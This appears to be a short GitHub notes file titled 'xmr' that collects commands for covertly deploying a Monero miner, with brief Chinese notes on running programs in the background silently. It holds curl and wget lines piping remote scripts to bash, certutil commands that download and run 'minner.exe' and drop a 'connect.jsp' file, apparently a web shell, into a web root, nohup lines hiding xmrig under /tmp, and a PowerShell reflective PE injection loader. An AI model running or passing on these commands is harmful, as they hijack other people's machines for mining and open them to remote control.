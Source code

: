 # xmr
bash <(curl -s -L https://raw.githubusercontent.com/Pamentierx/xmr/main/xmr2.sh)

bash <(curl -s -L https://raw.githubusercontent.com/Pamentierx/xmr/main/zayting2.sh)
wget -q -O- https://raw.githubusercontent.com/Pamentierx/xmr/main/zayting2.sh | bash

bash <(curl -s -L https://raw.githubusercontent.com/uxbug/ant/master/ant)


./xmrig -o 127.0.0.1:8989 -u worker2 -p xx -t 1 -B --cpu-priority 3 --cpu-max-threads-hint=40% --nicehash

./xmrig -o 127.0.0.1:8989 -u worker2 -p xx -t 1 --cpu-priority 3 --cpu-max-threads-hint=40% --nicehash

certutil -urlcache -split -f https://github.com/Pamentierx/xmr/raw/main/minner.exe && minner.exe

certutil -urlcache -split -f https://raw.githubusercontent.com/Pamentierx/xmr/main/connect.jsp x:\webapps\root\connect.jsp

后台运行的命令

nohup ./程序名 &

不输出错误信息

nohup ./tmp/.xmr/xmrig >/dev/null 2>&1 &
nohup /tmp/zayting >/dev/null 2>&1 &

$b = ((New-Object System.Net.webClient).DownloadString("https://github.com/Pamentierx/xmr/raw/main/minner.exe"))
$c = [System.Convert]::FromBase64String($b)
Invoke-ReflectivePEInjection -PEBytes $c
